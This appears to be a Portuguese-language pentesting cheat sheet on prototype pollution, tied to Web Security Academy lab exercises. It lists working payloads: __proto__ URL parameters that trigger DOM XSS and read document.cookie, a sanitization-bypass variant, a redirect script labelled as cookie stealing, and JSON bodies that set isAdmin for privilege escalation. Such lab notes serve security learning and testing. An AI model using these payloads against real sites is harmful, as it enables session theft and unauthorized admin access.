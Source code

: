 # Prototype Pollution

Probabilidade: $${\color{green}baixa}$$.

Recomenda-se utilizar a extensão DOM-Invader do navegador do BurpSuite para encontrar essa vulnerabilidade.

Também surge em arquivos como: `searchLogger.js`, `searchLoggerAlternative.js` and similar `searchLogger`....

![image](https://github.com/user-attachments/assets/04d7ef6d-eb64-49b4-a92b-59d02a5f4ae3)

Se aparecer no Client-Side será utilizado para roubar cookies. No Server-Side será utilizado para escalar privilégios.

<br>

## Laboratórios

**DOM XSS via Client-Side Prototype Pollution**
```
https://site.com/?__proto__[transport_url]=data:,alert(1)
```
<br>
<br>

**DOM XSS via an Alternative Prototype Pollution Vector**
```
https://site.com/?__proto__.sequence=alert(1)-
```

<br>
<br>

Client-Side Prototype Pollution via Flawed Sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
```

<br>
<br>

Client-Side Prototype Pollution in Third-Party Libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```

Stealing cookie:
```
<script>
    location="https://0a910062039513c584de01ab0009004f.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

<br>
<br>

**Client-Side Prototype Pollution via Browser APIs**
```
https://site.com/?__proto__[value]=data:,alert(1)
```

<br>
<br>

Privilege Escalation via Server-Side Prototype Pollution
```
{
...
    "__proto__": {
        "isAdmin":true
    }
}
```

<br>
<br>

**Detecting Server-Side Prototype Pollution without Polluted Property Reflection**
```
"__proto__": {
 "status":555
}
```

<br>
<br>

**Bypassing Flawed Input Filters for Server-Side Prototype Pollution**

Tente esse exploit se você perceber o header `Express framework` ou `X-Powered-By`: Express na resposta.
```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```
